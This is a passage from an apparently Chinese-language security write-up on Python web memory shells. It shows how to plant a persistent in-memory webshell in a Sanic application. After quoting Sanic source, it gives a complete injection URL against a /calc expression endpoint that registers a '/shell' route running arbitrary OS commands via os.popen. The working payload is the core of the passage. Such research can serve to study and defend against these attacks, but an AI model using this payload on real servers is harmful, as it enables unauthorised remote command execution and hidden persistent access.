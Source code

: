 ```python
            "block or by using an AppLoader.\nSee "
            "https://sanic.dev/en/guide/deployment/app-loader.html"
            " for more details."
        )
```

那么就比较容易构造了，因为这个函数本就是`@classmethod`,所以直接使用 `Sanic.get_app().add_route()`即可，注意这里的handler需要有一个`request`参数


```
http://localhost:8088/calc?expression=Sanic.get_app().add_route(lambda request: __import__('sanic').response.text(__import__('os').popen(request.args.get('cmd')).read()), '/shell')
```

![](/img/python-web-memory-shell/1.png)

访问shell效果如下

![](/img/python-web-memory-shell/2.png)